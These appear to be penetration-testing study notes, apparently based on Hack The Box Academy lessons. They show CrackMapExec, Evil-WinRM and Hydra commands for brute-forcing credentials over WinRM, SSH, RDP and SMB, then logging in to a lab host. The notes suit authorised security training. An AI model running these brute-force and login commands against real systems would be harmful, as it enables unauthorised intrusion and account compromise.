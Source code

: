 # CrackMapExec Usage 

CrackMapExec (a.k.a CME) is a post-exploitation tool that _helps automate assessing the security of large Active Directory networks_.

> Installation of the tool
---

```
$ sudo apt-get install crackmapexec
```



> The general format for using CrackMapExec is as follows:
---
```
$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```
$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

```
$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

#crackmapexec #network_service
# Evil-WinRM Usage

A handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

> Installation of the tool
---

```
$ sudo apt-get install evil-winrm 
```



> The general format for using CrackMapExec is as follows:
---
```
$ evil-winrm -i <target-IP> -u <username> -p <password>
```

#evil-winrm #network_service
# SSH

[Secure Shell](https://www.ssh.com/academy/ssh/protocol) (`SSH`) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The SSH server runs on `TCP port 22` by default, to which we can connect using an SSH client. This service uses three different cryptography operations/methods: `symmetric` encryption, `asymmetric` encryption, and `hashing`.
### Hydra - SSH

>  We can use a tool such as `Hydra` to brute force SSH. This is covered in-depth in the [Login Brute Forcing](https://academy.hackthebox.com/course/preview/login-brute-forcing/introduction-to-brute-forcing) module.


```
$ hydra -L user.list -P password.list ssh://10.129.42.197
```

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions. 

```
$ ssh user@10.129.42.197
```

#ssh #network_service #hydra 
# Remote Desktop Protocol (RDP)

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization. The Remote Desktop Protocol defines two participants for a connection: a so-called terminal server, on which the actual work takes place, and a terminal client, via which the terminal server is remotely controlled. In addition to the exchange of image, sound, keyboard, and pointing device, the RDP can also print documents of the terminal server on a printer connected to the terminal client or allow access to storage media available there. Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. The protocol is used by various official Microsoft apps, but it is also used in some third-party solutions.

### Hydra - RDP

> We can also use `Hydra` to perform RDP bruteforcing.

```
$ hydra -L user.list -P password.list rdp://10.129.42.197
```

### xFreeRDP

 > xfreerdp is an X11 Remote Desktop Protocol (RDP) client which is part of the FreeRDP project. An RDP server is built-in to many editions of Windows. Alternative servers included xrdp and VRDP (VirtualBox). 


```
$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

#rdp #network_service #hydra 

# SMB

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

### Hydra - SMB

> We can also use `Hydra` to perform SMB bruteforcing.

```
$ hydra -L user.list -P password.list smb://10.129.42.197
```

> usage of smbclient

```
$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```


#smb  #network_service #hydra  #smbclient
